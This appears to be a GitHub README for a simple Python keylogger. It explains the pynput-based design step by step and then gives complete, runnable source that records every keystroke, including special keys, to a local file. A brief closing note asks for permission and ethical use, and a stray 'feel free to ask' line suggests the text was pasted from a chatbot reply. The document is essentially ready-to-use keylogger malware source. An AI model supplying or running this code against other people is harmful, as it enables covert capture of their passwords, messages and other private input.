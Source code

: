 # simple-keylogger-python

Imports:

from pynput import keyboard: Importing the necessary modules from the pynput library.

Log File:

log_file = "keylog.txt": Specifies the file where keystrokes will be logged.

Key Logging:

key_log = []: A list to keep track of the keys pressed before writing them to the file.

on_press Function:

def on_press(key): This function is called whenever a key is pressed.
It attempts to add the character representation of the key to the log.
If the key has no character representation (like special keys), it checks if it's the space key or any other key.
Logs spaces as " " and other keys in a [key.name] format.
Writes the keys to the log file and clears the key_log list.

on_release Function:

def on_release(key): This function is called whenever a key is released.
If the esc key is released, it stops the listener.

Listener:

with keyboard.Listener(on_press=on_press, on_release=on_release) as listener: Sets up the listener to capture key press and release events.
listener.join(): Starts the listener and keeps it running until the esc key is pressed.

Important Notes:

Permissions: Always obtain explicit permission from all users involved before running a keylogger.
Ethical Use: Use this script only for ethical and legal purposes, such as educational demonstrations or monitoring your own devices.
If you need help with anything else or have more questions, feel free to ask!

First, ensure you have the pynput library installed. You can install it using pip:

```
bash
pip install pynput
```
Here is the Python code for a basic keylogger:

python code from pynput import keyboard

```
# Define the log file
log_file = "keylog.txt"

# This variable will keep track of the keys pressed
key_log = []

# Function to handle key press events
def on_press(key):
    try:
        key_log.append(key.char)
    except AttributeError:
        if key == keyboard.Key.space:
            key_log.append(" ")
        else:
            key_log.append(f"[{key.name}]")

    # Save the logged keys to the file
    with open(log_file, "a") as file:
        file.write(''.join(key_log))
        key_log.clear()

# Function to handle key release events
def on_release(key):
    if key == keyboard.Key.esc:
        # Stop listener
        return False

# Collect events until released
with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```
